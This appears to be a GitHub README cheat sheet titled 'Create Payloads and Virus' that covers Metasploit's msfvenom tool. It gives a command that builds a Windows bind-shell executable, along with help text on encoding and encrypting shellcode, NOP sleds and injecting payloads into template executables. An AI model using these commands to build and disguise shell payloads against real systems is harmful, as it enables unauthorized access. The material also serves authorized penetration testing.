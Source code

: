 <img src="https://github.com/dewebdes/CYBER-MILITARY-GERMANY/blob/master/Metasploit/msfvenom/msfvenom.jpg" />
<h1>Create Payloads and Virus</h1>
<h2>MSFVenom is new and combine msfpayload, encrypts & others together</h2>
<h3>Sample usage</h3>
<code>msfvenom -p windows/shell_bind_tcp LPORT=1337 LHOST=<IP> -f exe -o bindshell.exe</code>
<p>
<h3>Get the list of <b>msfvenom</b> Algorithms & Options, all for all options and others for filter results </h3>
<code>
msfvenom -l [payloads,encoders,nops,platforms,archs,encrypt,formats,all]
</code>
</p>
<p>
<code>msfvenom -p linux/x86/shell_bind_ipv6_tcp --list-options</code>
	<br><b>show target payload options</b>
</p>
<p>
	<code>msfvenom -f [format-name]</code>
<h4>Raw Payload -> Encoder -> Formatting -> Output</h4>
</p>	
<p>
	-e, --encoder         <encoder>  The encoder to use (use --list encoders to list)<br>
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string<br>
        --smallest                   Generate the smallest possible payload using all available encoders<br>
        <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_5-common-encryption-algorithms-and-the-unbreakables-activity-6674037546470780928-GkvA">--encrypt</a>         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)<br>
        --encrypt-key     <value>    A key to be used for --encrypt<br>
        --encrypt-iv      <value>    An initialization vector for --encrypt<br>
	</p>
	<p>
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)<br>
        --platform        <platform> The platform for --payload (use --list platforms to list)<br>
		</p>
		<p>
    -o, --out             <path>     Save the payload to a file
			</p>
    <p>
	    -b, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_bad-char-hacking-activity-6674042570320039936-8InL">--bad-chars</a>       <list>     Characters to avoid example: '\x00\xff'
	    </p>
	    <p>
    -n, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_blackhat-hacker-lessons-activity-6674044482788450304-mXPf">--nopsled</a>         <length>   Prepend a nopsled of [length] size on to the payload<br>
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
		    </p>
    <p>
	    -s, --space           <length>   The maximum size </p>
	    <p>-c, --add-code        <path>     Specify an additional win32 shellcode file to include</p>
    <p>-x, --template        <path>     Specify a custom executable file to use as a template</p>
    <p>-k, --keep                       Preserve the --template behaviour and inject the payload as a new thread</p>
    <p>-v, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_blackhat-hacking-lessons-activity-6674051666335158272-ZrT2">--var-name</a>        <value>    Specify a custom variable name to use for certain output formats</p>
    <p>-t, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_rapid7metasploit-framework-activity-6674053418291732480-eaeS">--timeout</a>         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)</p>
    <p>-h, --help                       Show this message</p>
